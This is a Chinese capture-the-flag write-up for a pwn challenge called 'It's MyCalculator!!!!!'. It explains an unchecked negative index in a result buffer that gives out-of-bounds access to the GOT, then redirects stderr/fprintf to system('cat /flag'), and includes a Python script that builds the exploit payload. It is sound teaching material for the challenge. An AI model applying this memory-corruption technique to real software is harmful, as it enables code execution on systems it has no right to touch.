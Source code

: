```python
```

# It's MyCalculator!!!!!

看起来是个 pwn 题。

我一开始想着，对展开的代码进行分析，但是发现太长了，根本没法看，于是只好回去看原来的代码。

代码中定义了一个 `result_buffer` 数组，每次运算后会把结果放进去。还提供了 `GET` 和 `PUT` 来直接读写里面的数据。

读写时判断了 `if ($2 >= MAX_RESULT_BUFFER)`，但是却没有判断小于 0 的情况，这导致可以越界读写。

可以发现 `result_buffer` 存在 bss 里。

![](hg2023/8.png)

而往上一点就是 got 表：

![](hg2023/10.png)

于是我们可以通过修改 got 表里面的地址，来劫持执行流。

我一开始试图直接修改某个地址到 one_gadget，但是发现不太工作。

然后我注意到，`yyerror` 函数中，会调用 `fprintf(stderr, ...)`, 而 `stderr` 刚好在我们能修改的区间内，于是可以把它改成一个我们可控的位置，随后调用 `system("cat /flag")`。

对于可控的位置，我直接选择了 `result_buffer` 内部。然后我们需要知道 libc 和程序的基址，以便算出 `system` 和 `result_buffer` 的地址。

这两者都能在 got 表中找到，使用过的函数会指向 libc，未使用过的则指向程序本身。

```python
import os, base64, subprocess

fprintf = 0x51D00
system = 0x4C3A0
v = system - fprintf

payload = '\n'.join([
    '1/0',
    'PUT X ((GET X) + Y)'.replace('X', str((-44) % 2**32)).replace('Y', str(v % 2 ** 32)),
    'PUT Z ((GET X) + Y)'.replace('X', str((-24) % 2**32)).replace('Y', str((0x6100 + 137 * 4 - 0x1176) % 2**32)).replace('Z', str((-8) % 2**32)),
    'PUT Z ((GET X) + Y)'.replace('X', str((-23) % 2**32)).replace('Y', '0').replace('Z', str((-7) % 2**32)),
    'PUT 137 ' + str(int.from_bytes(b'cat ', 'little')),
    'PUT 138 ' + str(int.from_bytes(b'/fla', 'little')),
    'PUT 139 ' + str(int.from_bytes(b'g\0', 'little')),
    '1/0',
]) + '\n'
print(payload)
open('ans.txt', 'w').write(base64.b64encode(payload.encode()).decode() + '\nEOF\n')
```

# 小 Z 的谜题
